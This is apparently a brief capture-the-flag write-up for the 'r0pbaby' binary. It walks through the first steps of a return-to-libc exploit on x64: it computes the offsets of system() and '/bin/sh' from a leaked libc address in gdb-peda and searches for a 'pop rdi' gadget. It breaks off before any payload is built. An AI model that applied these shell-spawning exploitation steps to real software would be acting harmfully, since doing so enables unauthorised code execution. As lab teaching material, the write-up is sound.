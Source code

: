 libc.so.6: 0x00007FFFF7FF59B0

Step1:



Step2:
Symbol system: 0x00007FFFF7876460

target:execute system(bin/sh)

find bin/sh
gdb-peda$ find /bin/sh
Found 6 results, display max 6 items:
 [heap] : 0x555555757040 ("/bin/sh\n")
 [heap] : 0x555555757462 --> 0x68732f6e69622f ('/bin/sh')
   libc : 0x7ffff7998879 --> 0x68732f6e69622f ('/bin/sh')
[stack] : 0x7fffffffb787 ("/bin/sh: 0x", '0' <repeats 16 times>, "\n")
[stack] : 0x7fffffffda72 --> 0x68732f6e69622f ('/bin/sh')
[stack] : 0x7fffffffde20 --> 0x68732f6e69622f ('/bin/sh')
gdb-peda$ x/s 0x7ffff7998879
0x7ffff7998879:	"/bin/sh"

offset_for_bin_sh=0x00007FFFF7FF59B0-0x7ffff7998879

offset_for_system=0x00007FFFF7FF59B0-0x00007FFFF7876460


Step3:
Because x64 is put the position to rdi instead of passing paratmeters,
so rquires gadgets requires pop rdi to pop address to rdi


root@kali:~/Documents/CTF# ROPgadget --binary r0pbaby > log.txt
root@kali:~/Documents/CTF# cat log.txt |grep pop
